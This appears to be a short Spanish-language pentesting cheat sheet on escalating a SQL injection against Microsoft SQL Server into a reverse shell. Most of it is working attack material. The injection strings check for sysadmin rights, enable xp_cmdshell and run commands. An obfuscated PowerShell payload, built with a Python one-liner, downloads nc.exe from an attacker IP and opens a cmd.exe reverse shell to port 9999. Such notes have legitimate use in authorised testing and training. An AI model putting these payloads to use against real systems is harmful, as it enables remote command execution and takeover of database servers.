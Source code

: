 ### INFO
En primera instancia deberemos cerciorarnos de que nuestro user es SA(sysadmin).

    <dato>' AND IS_SRVROLEMEMBER('sysadmin')=1;--

Si la respuesta nos da true, podemos intentar conseguir una shell reversa abusando de xp_cmdshell.

1. Primero habilitamos las advanced options, esta respuesta deberia darnos false sin el dato, true con el dato.

        ';exec sp_configure 'show advanced options','1';reconfigure;--

2. Habilitamos el xp_cmdshell, debería darnos false sin el dato, true con el dato:

        ';exec sp_configure 'xp_cmdshell','1';reconfigure;--

3. Podriamos probar que todo esté funcional y haya conexión enviandonos un ping corriendo previamente tcpdump:

        sudo tcpdump -i <interfaz>

Luego enviamos el ping:

        ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

4. Si esto funciona, podriamos enviarnos una shell reversa

        ';exec xp_cmdshell '<shell reversa>'.


Podemos usar revshell para generar reverseshells de manera sencilla:

    https://www.revshells.com/
#### En el caso de que la reverse no funcione:

Deberemos subir un netcat u otro binario util para realizar conexiones al servidor

1. Generamos el payload para que se descargue nuestro binario de manera ofuscada y se corra automáticamente:
   
        python3 -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'

2. pasamos como comando en la inyección:

       exec xp_cmdshell 'powershell -exec bypass -enc <payload>'
